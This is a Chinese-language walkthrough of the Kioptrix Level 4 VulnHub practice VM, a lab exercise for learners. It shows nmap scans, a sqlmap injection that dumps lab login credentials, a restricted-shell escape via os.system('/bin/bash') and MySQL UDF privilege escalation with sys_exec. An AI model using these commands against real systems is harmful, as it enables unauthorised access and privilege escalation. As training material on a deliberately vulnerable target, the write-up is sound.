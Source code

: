 # Kioptrix4-WalkThrough

> 笔记内容由 [xidaner](https://github.com/xidaner) 提供,仅做部分内容排版修改

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

**Description**

```
Again a long delay between VMs, but that cannot be helped. Work, family must come first. Blogs and hobbies are pushed down the list. These things aren’t as easy to make as one may think. Time and some planning must be put into these challenges, to make sure that:

1. It’s possible to get root remotely [ Edit: sorry not what I meant ]

1a. It’s possible to remotely compromise the machine

    Stays within the target audience of this site

    Must be “realistic” (well kinda…)

    Should serve as a refresher for me. Be it PHP or MySQL usage etc. Stuff I haven’t done in a while.

I also had lots of troubles exporting this one. So please take the time to read my comments at the end of this post.

Keeping in the spirit of things, this challenge is a bit different than the others but remains in the realm of the easy. Repeating myself I know, but things must always be made clear: These VMs are for the beginner. It’s a place to start.

I’d would love to code some small custom application for people to exploit. But I’m an administrator not a coder. It would take too much time to learn/code such an application. Not saying I’ll never try doing one, but I wouldn’t hold my breath. If someone wants more difficult challenges, I’m sure the Inter-tubes holds them somewhere. Or you can always enroll in Offsec’s PWB course. *shameless plug

-- A few things I must say. I made this image using a new platform. Hoping everything works but I can’t test for everything. Initially the VM had troubles getting an IP on boot-up. For some reason the NIC wouldn’t go up and the machine was left with the loopback interface. I hope that I fixed the problem. Don’t be surprised if it takes a little moment for this one to boot up. It’s trying to get an IP. Be a bit patient. Someone that tested the image for me also reported the VM hung once powered on. Upon restart all was fine. Just one person reported this, so hoping it’s not a major issue. If you plan on running this on vmFusion, you may need to convert the imagine to suit your fusion version.

-- Also adding the VHD file for download, for those using Hyper-V. You guys may need to change the network adapter to “Legacy Network Adapter”. I’ve test the file and this one seems to run fine for me… If you’re having problems, or it’s not working for any reason email comms[=]kioptrix.com

Thanks to @shai_saint from www.n00bpentesting.com for the much needed testing with various VM solutions.

Thanks to Patrick from Hackfest.ca for also running the VM and reporting a few issues. And Swappage & @Tallenz for doing the same. All help is appreciated guys

So I hope you enjoy this one.

The Kioptrix Team

Source: http://www.kioptrix.com/blog/?p=604

**Note: Just a virtual hard drive. You'll need to create a new virtual machine & attach the existing hard drive**
```

**知识点**
- SQL 注入
- mysql udf 提权

---

# 前期-信息收集
## nmap

开机后我们发现 这个用户名和密码是不知道的

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中.然后我们要知道这个虚拟机的 ip 地址,就要用到 IP 探活.

```
nmap -sP <你虚拟机网卡的网段> /24
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址,除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口

```
nmap 192.168.17.130
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/3.png)

可以发现,目标打开了 80 端口

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload,下面选择直接跑 sqlmap

---
---
---

# 中期-漏洞利用
## sql注入

代码:

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期-拿shell-提权
## 尝试 SSH 登陆

输入用户名和密码登陆进去

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/12.png)

---

## 登陆 MYSQL

```
mysql -u root -p
```

---

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/13.png)

## mysql UDF 提权

在 mysql 中输入
```
select sys_exec('usermod -a -G admin john');
```

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/18.png)

在我们退出去后,尝试登陆到 root

![](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix4/19.png)

`whoami` 确认获取 `root`

提权成功,感谢 Kioptrix Team 制作靶机

---

# 补充

**扫描 smb**

目标开放 139 445 这意味着可能可以枚举用户名

`nmap -sC --script smb-enum-users.nse <目标IP>`

`enum4linux <目标IP>`

这2个命令都可以

**udf 提权**

需要 udf 提权,需要检查 mysql 是否以 root 权限运行
```
ls -la /usr/lib/lib_mysqludf_sys.so
```
